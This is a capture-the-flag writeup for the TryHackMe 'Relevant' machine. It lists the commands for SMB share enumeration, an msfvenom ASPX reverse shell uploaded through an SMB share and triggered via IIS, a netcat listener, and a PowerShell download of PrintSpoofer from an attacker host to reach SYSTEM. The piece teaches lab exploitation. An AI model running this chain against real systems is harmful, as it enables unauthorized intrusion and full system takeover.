 # TryHackMe: [Relevant](https://tryhackme.com/room/relevant) — Writeup

## Summary
In this machine, we exploited an SMB vulnerability (CVE-2017–0143), discovered accessible SMB shares, used an ASPX reverse shell payload to gain a foothold, and escalated privileges using SeImpersonatePrivilege via PrintSpoofer.

## Scanning port
We start by scanning open ports and service versions:
```python
nmap -sV -sC -vvv 10.10.96.120
```
Results:
```python
Ports 80 and 49663 — Microsoft IIS
Ports 139 and 445 — SMB
Port 3389 — RDP
```
We visited both IIS web pages but found nothing of value.

## Vulnerability Detection

From the service scan, we identified:
CVE-2017–0143 — SMBv1 Remote Code Execution (EternalBlue)

## SMB Share Enumeration

List the SMB shares:
```python
smbclient -L //10.10.96.120 -N
```
We discovered an interesting share: nt4wrksv.

Access and recursively download its contents:

```python
smbclient //10.10.96.120/nt4wrksv -U "nothing" -c "recurse; prompt; mget *"
```
Inside, we found a file called passwords.txt containing credentials for bob, although we didn’t use them directly.

## Gaining RCE via SMB & IIS

We generate an ASPX reverse shell payload using msfvenom:

```python
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f aspx -o exploit.aspx
```
Then we upload it to the SMB share:
```python
smbclient //10.10.96.120/nt4wrksv
put exploit.aspx
```
Start a Netcat listener:
```python
nc -lvnp 8080
```
Trigger the payload in the browser:
```python
http://10.10.96.120:49663/nt4wrksv/exploit.aspx
```
We get a reverse shell. Then we read user.txt.

## Privilege Escalation
Check privileges:
```python
whoami /priv
```
We see SeImpersonatePrivilege — vulnerable to PrintSpoofer.

Start a Python HTTP server:

```python
python3 -m http.server 8000
```
On the victim machine:
```python
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10:8000/PrintSpoofer64.exe', 'spoofer.exe')"
spoofer.exe -i -c cmd
```
This gives us a SYSTEM shell. We read root.txt.

## Conclusion

Relevant is a great machine to practice:

* SMB and IIS enumeration,

* CVE-based exploitation (EternalBlue),

* manual payload upload via SMB and execution via IIS,

* privilege escalation using SeImpersonatePrivilege + PrintSpoofer.
